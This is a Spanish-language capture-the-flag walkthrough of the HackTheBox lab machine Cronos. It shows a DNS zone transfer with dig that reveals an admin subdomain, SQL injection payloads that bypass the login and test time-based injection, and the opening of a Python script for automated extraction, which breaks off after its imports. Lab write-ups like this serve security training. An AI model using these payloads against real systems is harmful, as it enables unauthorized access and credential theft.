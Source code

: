 ### AXFR {-}

```bash
dig @10.10.10.13 cronos.htb ns
dig @10.10.10.13 cronos.htb mx
dig @10.10.10.13 cronos.htb axfr
```

Aqui vemos que es vulnerable a ataques **AXFR** y vemos otro dominio 
```bash
 admin.cronos.htb 
```
 que añadimos al 
```bash
 /etc/hosts 
```
.

Si visitamos esta nueva web con Firefox vemos un panel de inicio de session.

### SQL Injection {-}

En el UserName si le ponemos la injeccion SQL basica 
```bash
 ' or 1=1-- - 
```
 y le damos a submit, entramos directamente en el panel
de administracion.

Como sabemos que esta vulnerable a injeccion SQL, probamos differentes cosas porque lo que nos interesa es tener usuarios y contrañas.

```bash
' order by 100-- -
' or sleep(5)-- -
```

Vemos que no esta vulnerable a un **Error Based SQL Injection** pero lo es a un **Time Based SQL Injection**.

```bash
admin' or sleep(5)-- -
admin' and sleep(5)-- -
```

Con estos commandos, comprobamos que el usuario admin existe.

Creamos un script en python para encontrar las informaciones con un **Time Based SQL Injection**

#### Time Based SQL Injection Autopwn {-}

Buscamos en nombre de la database

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)
```